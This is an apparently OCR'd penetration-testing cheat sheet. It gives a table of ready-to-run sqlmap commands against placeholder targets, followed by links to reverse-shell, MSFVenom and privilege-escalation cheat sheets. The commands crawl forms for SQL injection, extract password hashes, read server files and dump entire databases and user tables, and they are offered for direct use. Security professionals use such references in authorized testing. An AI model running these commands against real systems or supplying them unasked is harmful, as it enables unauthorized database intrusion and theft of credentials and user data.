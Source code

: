  <table> 
 <thead> 
 <tr> 
 <th>Command</th> 
 <th>Description</th> 
 </tr> 
 </thead> 
 <tbody> 
 <tr> 
 <td>sqlmap -u http://meh.com –forms –batch –crawl=10<br> 
 –cookie=jsessionid=54321 –level=5 –risk=3</td> 
 <td>Automated sqlmap scan</td> 
 </tr> 
 <tr> 
 <td>sqlmap -u TARGET -p PARAM –data=POSTDATA –cookie=COOKIE<br> 
 –level=3 –current-user –current-db –passwords<br> 
 –file-read=”/var/www/blah.php”</td> 
 <td>Targeted sqlmap scan</td> 
 </tr> 
 <tr> 
 <td>sqlmap -u “http://meh.com/meh.php?id=1”<br> 
 –dbms=mysql –tech=U –random-agent –dump</td> 
 <td>Scan url for union + error based injection with mysql backend<br> 
 and use a random user agent + database dump</td> 
 </tr> 
 <tr> 
 <td>sqlmap -o -u “http://meh.com/form/” –forms</td> 
 <td>sqlmap check form for injection</td> 
 </tr> 
 <tr> 
 <td>sqlmap -o -u “http://meh/vuln-form” –forms<br> 
 -D database-name -T users –dump</td> 
 <td>sqlmap dump and crack hashes for table users on database-name.</td> 
 </tr> 
 </tbody> 
 </table> 
  
  
 MSFVenom Cheatsheet: https://hacktoday.io/t/msfvenom-cheatsheet/3150 <br> 
 Pentesting Cheatsheets: https://hacktoday.io/t/pentesting-cheatsheets/2635 <br> 
 SUID Executables - Linux Privilege Escalation Cheatsheet: https://hacktoday.io/t/suid-executables-linux-privilege-escalation-cheatsheet/2865 <br> 
 Steganography - Cheatsheet: https://hacktoday.io/t/steganography-cheatsheet/2261 <br> 
 Reverse Shell Cheatsheet: https://hacktoday.io/t/reverse-shell-cheat-sheet/2397 <br>
